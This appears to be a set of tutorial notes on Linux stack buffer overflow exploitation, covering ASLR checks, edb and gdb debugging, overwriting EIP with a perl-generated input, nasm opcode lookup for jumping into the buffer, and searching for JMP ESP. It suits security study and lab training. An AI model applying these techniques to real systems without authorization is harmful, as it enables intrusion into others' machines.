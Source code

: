 ### Linux

+ To test if ASLR is enabled on Linux:

  ```
  $ cat /proc/sys/kernel/randomize_va_space
  2
  ```
  The value 2 means ASLR is enabled

#### EDB - Evans Linux Debugger

  + run the application through the edb
  ```
  root@kali:~# edb --run /usr/games/crossfire/bin/crossfire
  ```
  Need to hit 'Run' twice to have the application run.

  + The strategy is the same:

    1. Crash the application
    2. Control (find) EIP
    3. Finding space in the buffer
    4. Discovering bad characters
    5. Find a return address (JMP ESP)
    6. Adding shellcode in memory

  + Might also have space in buffer in front of EIP.

    - EAX usually points to start of injected buffer
    - Might have some characters at start that needs to be ignored. These characters need
      to be inspected. Sometimes they translate to conditional jumps that do not jump out
      of the execution path required.  
      OR  
      Jump over the first 12 characters of EAX  
      In Assembly, this translates to:  
      `add eax, 12`  
      and then to go to the value in eax:  
      `jmp eax`  

      To get the opcodes for this:  
      ```
      root@kali:~# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
      nasm > add eax,12
      00000000  83C00C            add eax,byte +0xc
      nasm > jmp eax
      00000000  FFE0              jmp eax
      nasm >
      ```

      **** THIS is then tacked on after EIP, to redirect the execution

  + Find return address done with "Opcode Search"
  Search for "JMP ESP":<br/>
    - Click on first Region
    - "What to search for" = "Jump Equivalent"; "ESP -> EIP"
#### GDB - Using the GNU debugger

+ To start gdb for a program:
  ```
  # gdb -q validate
  Reading symbols from validate...done.
  ```

+ Now to run that program (with arguments):
  ```
  (gdb) r `perl -e 'print "\x41"x116 . "\x42"x4'`
  Starting program: /usr/local/bin/validate `perl -e 'print "\x41"x116 . "\x42"x4'`

  Program received signal SIGSEGV, Segmentation fault.
  0x42424242 in ?? ()
  ```

+ To check the content of the registers at crash:
  (info registers)
  ```
  (gdb) i r
  eax            0xbf96b718    -1080641768
  ecx            0x0    0
  edx            0x79    121
  ebx            0x41414141    1094795585
  esp            0xbf96b790    0xbf96b790
  ebp            0x41414141    0x41414141
  esi            0x0    0
  edi            0x0    0
  eip            0x42424242    0x42424242
  eflags         0x10286    [ PF SF IF RF ]
  cs             0x73    115
  ss             0x7b    123
  ds             0x7b    123
  es             0x7b    123
  fs             0x0    0
  gs             0x33    51
  (gdb)
  ```

+ Examine the content of the memory location:
  x 0xaddress - Examine the contents of memory.  
  x/nfu 0xaddress -   Examine the contents of memory and specify formatting.  
        n: number of display items to print
        f: specify the format for the output
        u: specify the size of the data unit (eg. byte, word, ...)

  ```
  (gdb) x/10x $eax
  0xbf95fbe8:    0x41414141    0x41414141    0x41414141    0x41414141
  0xbf95fbf8:    0x41414141    0x41414141    0x41414141    0x41414141
  0xbf95fc08:    0x41414141    0x41414141
  (gdb) x/10x $eax -4
  0xbf95fbe4:    0xb75f3eb0    0x41414141    0x41414141    0x41414141
  0xbf95fbf4:    0x41414141    0x41414141    0x41414141    0x41414141
  0xbf95fc04:    0x41414141    0x41414141
  (gdb)
  ```

  Check the stack pointer (ESP):
  ```
  (gdb) x/s $esp
  ```

+ To view the instructions:

  ```
  (gdb) disas main
  ```

  Or a specific memory address:

  ```
  (gdb) disas 0x80484b4
  ```

+ Find specific instructions in memory:
  “objdump” can be used to find the particular instruction to get to your shellcode.

  ```
  # objdump -d validate | grep -i jmp
  ```
